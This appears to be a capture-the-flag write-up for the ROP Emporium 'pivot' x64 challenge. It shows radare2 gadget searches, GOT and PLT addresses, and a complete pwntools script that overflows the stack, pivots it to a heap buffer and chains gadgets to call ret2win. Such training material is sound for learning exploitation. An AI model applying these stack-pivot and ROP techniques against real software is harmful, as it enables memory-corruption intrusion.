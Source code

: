 # pivot

## x64 (x86_64)

I've skipped a few of the challenges because I was interested about stack pivoting

This one feaures stack pivoting, useful in cases where the initial chain is limited in size or you need to pivot onto a chain already written elsewhere in memory.

This challenge imports a function named foothold_function() from a library that also contains a ret2win() function. I'll need to find the `.got.plt` entry of `foothold_functon()` and add the offset of `ret2win()` to get the actual address. `foothold_function()` will also need to be called first to update its `.got.plt` entry.

The program helps a lot with all of this. The goal ends up being to pivot the stack using a ROP chain to a given heap address, leak the addresses of library functions, and call `ret2win()` which prints the flag. The process is:

* stack smash 
* stack pivot
* leak the address of `foothold_function()` in libpivot and calculate offset for `ret2win()`
* call `ret2win()`


First we need to smash the stack. We can use `ragg2` to generate a payload to find the offset.

```sh
ragg2 -P 100 -r > fuzzing.txt
```

now if we use gdb and enter in the fuzzing payload when the stack smash is prompted, we hit a segfault and see that `rsp` points to `AAOAAPAAQAARAASAATAAUAAV` which after comparing to the fuzzing payload, occurs after 40 characters. After these 40 characters, we will overflow into the instruction pointer.

Now onto the stack pivot. We need some gadgets


```sh
r2 pivot
 -- Control the height of the terminal on serial consoles with e scr.height
[0x00400760]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[0x00400760]> f~+gadget
0x004009bb 0 loc.usefulGadgets
[0x00400760]> pd 8@loc.usefulGadgets
            ;-- usefulGadgets:
            0x004009bb      58             pop rax
            0x004009bc      c3             ret
            0x004009bd      4894           xchg rsp, rax
            0x004009bf      c3             ret
            0x004009c0      488b00         mov rax, qword [rax]
            0x004009c3      c3             ret
            0x004009c4      4801e8         add rax, rbp
            0x004009c7      c3             ret
```

The first two seem useful: pop a value into rax then xchg that with rsp. Given this, the ROP chain now looks like:

* payload of 40 chars
* pop rax
* heap addr (pop heap addr into rax)
* xchg rsp rax (xchg the heap addr into the stack pointer)

Now to get the libc address leak. We can find the relative offset between the `foothold_functon()` and `ret2win()` using r2:

```sh
r2 libpivot.so 
Warning: run r2 with -e bin.cache=true to fix relocations in disassembly
 -- Use hasher to calculate hashes of portion blocks of a file
[0x00000890]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[0x00000890]> ? sym.ret2win - sym.foothold_function
int32   279
uint32  279
hex     0x117
octal   0427
unit    279
segment 0000:0117
string  "\x17\x01"
fvalue  279.0
float   0.000000f
double  0.000000
binary  0b0000000100010111
ternary 0t101100
```

So the `ret2win()` function can be reached by adding 0x117 to the `foothold_function()` address. Now to find the addresses within the GOT


```sh
r2 pivot      
 -- Use 'zoom.byte=printable' in zoom mode ('z' in Visual mode) to find strings
[0x00400760]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[0x00400760]> afl
0x00400760    1 42           entry0
0x004006a0    3 23           sym._init
0x00400a44    1 9            sym._fini
0x004007a0    4 42   -> 37   sym.deregister_tm_clones
0x004007d0    4 58   -> 55   sym.register_tm_clones
0x00400810    3 34   -> 29   sym.__do_global_dtors_aux
0x00400840    1 7            entry.init0
0x004008f1    1 183          sym.pwnme
0x00400700    1 6            sym.imp.memset
0x004006e0    1 6            sym.imp.puts
0x004006f0    1 6            sym.imp.printf
0x00400710    1 6            sym.imp.read
0x004009a8    1 19           sym.uselessFunction
0x00400720    1 6            sym.imp.foothold_function
0x00400750    1 6            sym.imp.exit
0x00400a40    1 2            sym.__libc_csu_fini
0x004009d0    4 101          sym.__libc_csu_init
0x00400790    1 2            sym._dl_relocate_static_pie
0x00400847    3 170          main
0x00400740    1 6            sym.imp.setvbuf
0x00400730    1 6            sym.imp.malloc
0x004006d0    1 6            sym.imp.free
[0x00400760]> pdf @ sym.imp.foothold_function
            ; CALL XREF from sym.uselessFunction @ 0x4009ac(x)
┌ 6: sym.imp.foothold_function ();
│ rg: 0 (vars 0, args 0)
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
└           0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726 ; "&\a@"
[0x00400760]> ir
[Relocations]

vaddr      paddr      type   name
―――――――――――――――――――――――――――――――――
0x00600ff0 0x00000ff0 SET_64 __libc_start_main
0x00600ff8 0x00000ff8 SET_64 __gmon_start__
0x00601018 0x00001018 SET_64 free
0x00601020 0x00001020 SET_64 puts
0x00601028 0x00001028 SET_64 printf
0x00601030 0x00001030 SET_64 memset
0x00601038 0x00001038 SET_64 read
0x00601040 0x00001040 SET_64 foothold_function
0x00601048 0x00001048 SET_64 malloc
0x00601050 0x00001050 SET_64 setvbuf
0x00601058 0x00001058 SET_64 exit
0x00601070 0x00601070 ADD_64 stdout


12 relocations

```

So we have:

* `foothold_function()` address in PLT: 0x00400720
* `foothold_function()` address in GOT: 0x00601040


Uing the `foothold_function()` PLT address we can call it so the GOT entry is filled. Now we need to construct a ROP chain in this new pivoted stack, which will move the `foothold_function()` GOT entry into a register and add the found offset to reach the `ret2win()` address and call it. Thats the win condition.

Lets find the gadgets in r2

```sh
[0x00400760]> /R pop rax
  0x004009bb                 58  pop rax
  0x004009bc                 c3  ret
[0x00400760]> /R mov rax
  0x004009c0             488b00  mov rax, qword [rax]
  0x004009c3                 c3  ret
[0x00400760]> /R add rax
  0x004009c4             4801e8  add rax, rbp
  0x004009c7                 c3  ret
[0x00400760]> /R pop rbp
  0x004007c8                 5d  pop rbp
  0x004007c9                 c3  ret
[0x00400760]> /R call rax
  0x004006b0               ffd0  call rax
```

This ROP chain now looks like:

* call `foothold_function()` in PLT
* `pop rax; ret`
* pop `foothold_function()` in GOT into rax
* `mov rax; ret`
* `pop rbp; ret`
* add 0x117 bytes to get `ret2win()` to the rbp
* `add rax; ret`
* `call rax`

In total the solution script is:

```py
binary = ELF("./pivot")
libc = ELF("./libpivot.so")
context.binary = binary

p = process(binary.path)

# addresses
pop_rax = 0x004009bb
xchg_rsp_rax = 0x004009bd

foothold_plt = 0x00400720
foothold_got = 0x00601040

mov_rax = 0x004009c0
add_rax = 0x004009c4
pop_rbp = 0x004007c8
call_rax = 0x004006b0

#pid = util.proc.pidof(p)[0]
#print(f"the pid is {pid}")
#util.proc.wait_for_debugger(pid)

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot:")
raw_heap_addr = p.recvline().strip().decode("utf-8")
heap_addr = u64(unhex(raw_heap_addr[2:]).rjust(8, b"\x00"), endian="big")

log.info(f"heap address: {hex(heap_addr)}")

ret2win_offset = libc.sym["ret2win"] - libc.sym["foothold_function"]
# could do this way or the other way
#foothold_plt = p.elf.plt["foothold_function"]
#foothold_got = p.elf.got["foothold_function"]


stage2 = p64(foothold_plt)
stage2 += p64(pop_rax)
stage2 += p64(foothold_got)
stage2 += p64(mov_rax)
stage2 += p64(pop_rbp)
stage2 += p64(ret2win_offset)
stage2 += p64(add_rax)
stage2 += p64(call_rax)

# pivoted rop chain to heap address
p.recvuntil(b"> ")
p.sendline(stage2)

# stack smash
p.recvuntil(b"> ")

stage1 = b"A" * 40
stage1 += p64(pop_rax)
stage1 += p64(heap_addr)
stage1 += p64(xchg_rsp_rax)
p.sendline(stage1)

print(p.recvall())
```